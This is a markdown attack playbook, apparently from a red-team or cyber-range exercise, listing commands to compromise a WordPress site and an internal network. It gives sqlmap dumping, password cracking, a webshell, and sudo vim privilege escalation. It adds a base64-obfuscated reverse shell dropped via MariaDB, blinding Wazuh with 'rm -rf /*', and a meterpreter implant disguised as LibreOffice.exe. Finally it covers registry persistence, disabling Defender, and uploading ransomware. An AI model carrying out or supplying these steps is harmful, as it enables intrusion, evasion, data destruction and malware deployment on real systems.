 # List of useful commands
This list contains useful commands to use during the attack

# Port enumeration
Enumerates all the open ports in a stealthier way\
`nmap -sS -sV -vv 10.0.1.1 -p-`

# Dumping database
Dumping the database via SQLi\
`sqlmap -u http://www.quinteflush.org/login.php --forms --dump --dbs --batch`

# Crack the hash
From the database, crack the hash in hope of finding an admin password for wordpress\
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Then login to `http://www.quinteflush.org/wp-admin` via `admin:********`.\
Install the `File Manager Advanced` plugin and replace a webpage with a webshell.

# Webshell
Use a listener on 0.0.0.0 with either port 80/tcp, 443/tcp or 53/tcp\
`rlwrap nc -lvnp 53`

Go to the edited webpage to trigger the webshell

# Privilege Escalation
First, let's enumerate all what are the sudo rights given to www-data\
`sudo -l`
\
privilege escalation (gtfobins) in interactive mode\
`sudo vim -c ':!/bin/bash -i'`\
\
If you don't use interactive mode, upgrade the shell to interact better with the system\
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

# Information gathering
Check the wordpress configuration to access the database.\
`cat /var/www/wordpress/wp-config.php`

# SSRF RCE Mariadb
Launch mariadb by using the wordpress configuration.\
`mariadb -u wordpress_user -p --host=10.0.0.6`\

Drop the python3 (base64 encoded) payload on the mariadb server, which is on the LAN:\
```
USE shop;
SELECT 'eval $(echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMC4xLjEiLDIyKSk7W29zLmR1cDIocy5maWxlbm8oKSxmKWZvciBmIGluKDAsMSwyKV07cHR5LnNwYXduKCJzaCIpJw== | base64 -d)' INTO OUTFILE '/tmp/mysql.sh' FROM 'shop.user' LIMIT 1;
```

On the nmap report, there's a ssh running on port `22/tcp`. Disable the service ssh on webserver:\
`systemctl stop ssh`\

Install `netcat` then launch a listener on port `22`:\
`apt install netcat-openbsd && nc -lvnp 22`\

Wait 1 to 2 minutes, so that the backup script executes our payload.

# Breaking RSA
You will find 2 rsa 4096bits public keys. These keys are vulnerable to Fermat's algorithm. Generate the `n` module to factorize it, and obtain `p` and `q`, so you can generate the private key.
```
ssh-keygen -e -m PKCS8 -f <public_key> | openssl rsa -pubin -noout -modulus
echo "ibase=16; <result_of_the_previous_command> | BC_LINE_LENGTH=0 bc"
```

Paste the result in your python `fermat.py` as the argument of the `factorize()` function. You will obtain `p` and `q`.

# Wazuh
Once logged in, make Wazuh blind. Use any method you can think of (e.g. changing ip address, stopping the service, `rm -rf /*`...)

# Active Directory
Upload a custom C2 to avoid leaving IoCs. Use an obfusated `meterpreter` and upload it via `scp -r` to the `Domain Controller`.\
`msfvenom -p windows/x64/meterpreter/reverse_http LHOST=10.0.0.6 LPORT=80 -f csharp`
Encrypt the payload with `xor_payload` then obfuscate it with `payload`. Rename it to a more conventional name (e.g. LibreOffice.exe, Chromium.exe...).\
Setup a meterpreter listener:\
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_http
set lhost 10.0.0.6
set lport 80
# avoiding IoCs
set AutoLoadStdapi false
set AutoSystemInfo false
# opportunity to get more than 1 listener
set ReverseListenerThreaded true
exploit
```
With a **SSH** session, upload then launch the program (use several session if possible). Once a meterpreter session opened, execute the following:
```
# persistance (adapt to a more stealthy location)
reg setval -k 'HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run' -t REG_SZ -v 'LibreOffice' -d 'C:\Users\Administrator\Desktop\LibreOffice.exe'
# use a shell (wait at least a minute to be even more stealthy!)
load stdapi
shell
# create an AV exception
Add-MpPreference -ExclusionPath "C:\Users\Administrator\Desktop"
# Disable AV
Set-MpPreference -DisableTamperProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -MAPSReporting 0
​Set-MpPreference -SubmitSamplesConsent NeverSend
```

Upload any file (e.g. ransomware, spyware...) after disabling the controls with the meterpreter shell with `upload <path/to/file>`